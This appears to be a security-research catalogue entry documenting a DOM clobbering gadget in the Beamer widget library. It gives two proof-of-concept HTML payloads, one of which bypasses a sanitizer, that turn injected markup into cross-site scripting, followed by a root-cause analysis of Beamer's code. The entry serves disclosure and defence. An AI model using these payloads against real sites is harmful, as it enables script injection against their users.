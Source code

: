 ```yaml
---
description: Inform and educate your customers with two-way communication that allows you to learn what customers love, and what they need.
gadgets:
  Latest:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - safari-browser
      - a-tag
      - any-tag
      - id-attr
      - name-attr
      - before-func-call
    pocs:
      - description: The Beamer library uses the `Beamer.customDomain` value as an `<iframe src="">` when `enableAutoRefresh` and `activateAutoRefresh` configuration options are specified.
        code: |
          <!-- user input -->
          <p id="Beamer"></p><a id="Beamer" name="customDomain" href="javascript:alert(document.domain)//"></a>

          <script>
            var beamer_config = {
                product_id : "TCocQlcK73424",
                user_id: "00000000-0000-0000-0000-000000000000"
            };
          </script>
          <script type="text/javascript" src="[current-location]/assets/xss/beamer/beamer-embed.js" defer="defer"></script>
          <script>
            setTimeout(() => { Beamer.update({language: "FR"}) }, 1000); /*
            window.Beamer&&window.Beamer.update()
            */
          </script>
      - description: Even if a sanitizer is being used, it's possible to abuse HTMLCollection items not being writable to disable the `Beamer.escapeHtml` function.
        code: |
          <!-- user input -->
          <p id="Beamer" name="pushDomain"></p><p id="Beamer"></p><a id="Beamer" name="customDomain" href="http:'/onload='alert(document.domain)'/x='"></a><a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></p></a>

          <script>
            var beamer_config = {
                product_id : "TCocQlcK73424",
                user_id: "00000000-0000-0000-0000-000000000000"
            };
          </script>
          <script type="text/javascript" src="[current-location]/assets/xss/beamer/beamer-embed.js" defer="defer"></script>
          <script>
            setTimeout(() => { Beamer.update({language: "FR"}) }, 1000); /*
            window.Beamer&&window.Beamer.update()
            */
          </script>
    more-info: |
      **Root Cause**

      ```js
      Beamer.update = function(a) {
          if ("undefined" !== typeof a) {
              var b = !1;
              // ...
              "undefined" !== typeof a.language && beamer_config.language !== a.language && (beamer_config.language = a.language,
              b = !0);
              // ...
              for (var c in a)
                  if (a.hasOwnProperty(c) && !(-1 < Beamer.reservedParameters.indexOf(c))) {
                      var d = a[c];
                      "undefined" === typeof d || "object" === typeof d || Beamer.isFunction(d) || beamer_config[c] === d || (beamer_config[c] = d,
                      b = !0)
                  }
              b && (Beamer.started ? Beamer.appendAlert(!0, !0) : Beamer.init()) // HERE
          }
      }
      ```

      ```js
      Beamer.appendAlert = function(a, b) { // HERE
          // ...

          if (!Beamer.isEmbedMode() && ("undefined" === typeof beamer_config.auto_refresh || beamer_config.auto_refresh) && "undefined" !== typeof l && l && "undefined" !== typeof k && k) {
              if (h || "undefined" !== typeof b && b) 
                  _BEAMER_IS_OPEN ? Beamer.removeOnHide = !0 : Beamer.removeIframe(), // HERE
                  Beamer.setCookie(_BEAMER_LAST_UPDATE + "_" + beamer_config.product_id, (new Date).getTime(), 300);
              h = Beamer.getConfigParameter(f, "autoRefreshTimeout");
              "undefined" !== typeof h ? Beamer.autoRefreshTimeout = h : "undefined" !== typeof Beamer.autoRefreshTimeout && Beamer.autoRefreshTimeout || (Beamer.autoRefreshTimeout = 1201E3);
              h = Beamer.getConfigParameter(f, "enableUpdatesListener");
              "undefined" !== typeof h && h ? (f = Beamer.getConfigParameter(f, "updatesDelay"),
              "undefined" !== typeof f && 0 <= f && (Beamer.updatesMaxDelay = f),
              Beamer.appendUtilitiesIframe(!0)) : Beamer.prepareAutoRefresh() // HERE
      ```

      ```js
      Beamer.appendUtilitiesIframe = function(a) {
          if ("undefined" === typeof Beamer.config.disableUtilitiesIframe || !Beamer.config.disableUtilitiesIframe)
              try {
                  if (!document.getElementById("beamerUtilities")) {
                      var b = "undefined" !== typeof Beamer.customDomain ? Beamer.customDomain : _BEAMER_URL;
                      b += "utilities?app_id=" + beamer_config.product_id;
                      "undefined" !== typeof Beamer.escapeHtml && (b = Beamer.escapeHtml(b));
                      Beamer.appendHtml(document.body, "<iframe id='beamerUtilities' src='" + b + "' width='0' height='0' frameborder='0' scrolling='no'></iframe>")
                  }
                  "undefined" !== typeof Beamer.customDomain && Beamer.setIframeCookies();
                  "undefined" !== typeof a && a && Beamer.initUpdatesListener()
              } catch (c) {
                  Beamer.logError(c)
              }
      }
      ```
    links:
      - https://mizu.re/post/under-the-beamer
---
```

